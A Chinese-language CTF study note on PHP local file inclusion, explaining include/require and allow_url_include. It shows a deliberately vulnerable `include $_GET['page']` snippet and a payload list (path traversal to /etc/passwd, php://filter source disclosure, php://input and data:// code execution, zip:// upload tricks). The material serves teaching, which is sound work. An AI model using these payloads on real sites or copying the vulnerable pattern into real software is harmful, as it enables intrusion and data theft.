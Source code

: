```yaml
---
title: "文件包含" 
weight: 4
bookToc: true
---
```


## 文件包含

几平所有的编程语言都会提供文件包含功能，目的是将可重复使用的代码写到单个文件中，通过包含文件复用之前的代码逻辑，如C语言的`#include`

ctf web题目中，如果涉及考查文件包含知识点，则对应web大概率是**由php编写**，通过文件包含主要的目的有**以下2点**：
- 最终步骤：包含flag文件，获取flag
- 中间步骤：包含xxx.php，获取对应代码，进行代码审计（**主要情形**）

当获取不到代码的时候，且页面有明显文件包含功能时，可以使用`?page=../../../../../etc/passwd`，基于网页回显判断是否存在文件包含漏洞

## 关键函数

php中的文件包含涉及到以下函数，先理解以下函数的作用
- `include/include_once/require/require_once`，由 `allow_url_include = on/off` 决定是否可以访问各种类型的数据流（built-in wrappers for various URL-style protocols），即使用伪协议
- `file_get_contents/fopen`等filesystem相关函数，由 `allow_url_fopen = on/off` 决定是否可以访问各种类型的数据流（built-in wrappers for various URL-style protocols），即使用伪协议

一些说明：
- `allow_url_include = on`设置生效，需要`allow_url_fopen`设置为`on`
- `allow_url_fopen`默认`on`，`allow_url_include`默认`off`
- `allow_url_include`PHP 7.4.0版本已经不支持，只在PHP 7.3和版本中设置生效

![](/data/image/web-allow-url-include.png)
![](/data/image/web-allow-url-include2.png)

### include/include_require

include 用于在 PHP 脚本中包含并执行另一个文件，包含的文件会被当成php代码执行，如果包含的文件不存在或者因某些原因无法加载，include 将发出一个警告（E_WARNING），但脚本**将继续执行**。适合于那些非关键的文件包含，比如界面元素或者某些可选的功能组件。

include_once 功能类似于 include，也是用于包含并执行文件。不同之处在于它会首先检查该文件是否已经被包含过，如果是，**则不会再次包含**。

代码段如下
```php
<?php
    $file = $_GET['page'];
    include $file;
?>
```

### require/require_once

require 与 include 类似，但其差异在于错误处理。如果 require 的文件不存在或无法加载，PHP 将发出致命错误（E_COMPILE_ERROR），**并停止脚本执行**。适用于那些对脚本运行至关重要的文件，如配置文件或核心库文件。

require_once 功能类似于 require，也是用于包含并执行文件。不同之处在于它会首先检查该文件是否已经被包含过，如果是，**则不会再次包含**。

### file_get_contents/fopen

`file_get_contents()`用于一次性将整个文件的内容读取到一个字符串中，本身不会将对应内容作为PHP 代码执行，这点与include不同。
```php
<?php
$content = file_get_contents('filename.txt');
echo $content;
?>
```

关于是否将结果返回给浏览器，这取决于你对这个字符串如何处理，如显式使用 echo、print 或其他输出语句

`fopen()` 函数提供了更多的灵活性，它用于打开文件或 URL，返回一个文件指针，之后可以使用其他函数（如 `fgets()`, `fread()`, 和 `fwrite()`）来读取或写入文件。参考代码略。

## 伪协议

php提供了各种伪协议，[built-in wrappers for various URL-style protocols](https://www.php.net/manual/en/wrappers.php)，具体查询链接中的信息每个伪协议是否受`allow_url_fopen/allow_url_include`限制

ctf常考的伪协议用法如下：
```
?page=file:///etc/passwd

?page=php://filter/string.toupper/resource=flag.php
?page=php://filter/convert.base64-encode/resource=flag.php # 用于读取源代码并进行 base64 编码输出，不然会直接当做 php 代码执行就看不到源代码内容了
?page=php://filter//convert.iconv.SJIS*.UCS-4*/resource=flag.php 
# convert.iconv.<input-encoding>.<output-encoding>，支持的编码参看，https://www.php.net/manual/en/mbstring.supported-encodings.php

?page=php://input
【POST Data】: <?php phpinfo(); ?>  # 当 enctype="multipart/form-data" 时，php://input 是无效的

?page=data://text/plain,<?php phpinfo()?>
?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

?page=zip://./file.jpg%23phpcode.txt 
# 先将要执行的PHP代码写好文件名为phpcode.txt，将phpcode.txt进行zip压缩，压缩文件名为file.zip；如果可以上传zip文件便直接上传，若不能便将file.zip重命名为file.jpg后再上传
?page=compress.bzip2://./file.jpg # compress.bzip2 php特有流封装器在PHP中用于bzip2压缩单个文件
?page=compress.zlib://./file.jpg # 同上
```

## 题目

{{< expand "题目 攻防世界-Web-文件包含" "..." >}}
TODO
{{< /expand >}}